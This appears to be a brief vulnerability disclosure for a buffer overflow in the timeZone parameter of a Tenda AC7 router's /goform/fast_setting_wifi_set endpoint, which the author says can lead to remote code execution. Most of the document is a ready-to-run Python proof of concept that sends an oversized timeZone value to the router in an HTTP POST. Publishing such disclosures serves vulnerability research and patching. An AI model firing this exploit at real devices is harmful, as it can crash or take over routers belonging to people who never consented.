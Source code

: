 form\_fast\_setting\_wifi\_set timeZone
---------------------------------------

### Vulnerability Details

This vulnerability lies in the `/goform/fast_setting_wifi_set` page

Tengda AC7 V1.0 V15.03.06.44 found a buffer overflow caused by the timeZone parameter in the form\_fast\_setting\_wifi\_set function, which can cause RCE:

![](api/attachments/eRMd0alKhbE6/image/image.png)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/fast_setting_wifi_set"
headers = {
    "Host": "192.168.142.100",
    "Content-Length": "1391",
    "Accept": "*/*",
    "X-Requested-With": "XMLHttpRequest",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "Origin": "http://192.168.142.100",
    "Referer": "http://192.168.142.100/parental_control.html?random=0.7058891673130268&",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Connection": "close",
    "Cookie": "password=iqb1qw; bLanguage=cn"
}


long_part = "Raining101" * 0x100
timeZone_value = f"{long_part}:{long_part}"  

data = {
    "ssid": "1",
    "timeZone": timeZone_value
}

response = requests.post(url, headers=headers, data=data)
print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")
```

![](api/attachments/NFQh0mJKC3Fk/image/image.png)